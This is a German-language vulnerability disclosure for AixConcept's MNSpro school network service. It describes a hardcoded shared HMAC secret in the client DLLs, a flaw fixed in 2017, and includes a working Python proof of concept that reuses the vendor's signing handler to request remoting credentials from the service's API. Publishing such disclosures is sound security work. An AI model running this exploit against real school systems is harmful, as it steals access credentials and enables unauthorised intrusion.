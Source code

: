 ### Zusammenfassung

| Art              | Broken Authentication / Remote-Code-Execution |
|------------------|--------------------------------|
| Schwere (CVSS)   | 8.2/10                         |
| Datum Entdeckung | Mitte 2017                     |
| Datum Behebung   | Mitte 2017                     |

<small>CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:L/IR:L/AR:L</small>

## Mangelhafte Berechtigungsprüfung des Unterrichtszentralendienst (2)

Die MNSpro-Clientsoftware enthielt als Reaktion auf vorherige 
Sicherheitslücke eine Authentifizierung. Diese besteht darin aus einem 
im Quellcode stehenden "geheimen", aber geteiltem Schlüssel, der Zeit (zum 
Replay-Schutz), der URL, der HTTP-Methode und dem SHA256-Hash eventueller
POST-Daten einen Einmalschlüssel zu generieren.

Da entsprechende Funktionen sogar aus den mitgelieferten DLLs "exportiert"
ist, ist auch diese Sicherheitslücke trivial auszunutzen.

```python
import clr

clr.AddReference("System.Net.Http")
clr.AddReference("System.Threading")
clr.AddReference("AixConcept.Toolbox")

from System.Net.Http import HttpClient, HttpRequestMessage, HttpMethod
from System.Threading import CancellationToken
from AixConcept.Toolbox.Hmac import *

h = HmacSigningHandler(AixSecretRepository(), CanonicalRepresentationBuilder(), HmacSignatureCalculator())
h.AppId = "AixConcept-UZ-API"
h.UseProxy = False
s = RequestContentSHA256Handler()
s.InnerHandler = h
client = HttpClient(s)

if __name__ == "__main__":
    print ("Bitte Service-URL eingeben (abzurufen unter http://10.1.0.0:.../api/GetClientSessions):")
    service_url = input('http://')
    url = "http://%s/api/GetRemotingCredentials" % service_url
    print ("Sende Anfrage an %s..." % url)
    res = client.SendAsync(HttpRequestMessage(HttpMethod.Get, url), CancellationToken() )
    print (res.Result.Content.ReadAsStringAsync().Result)
```
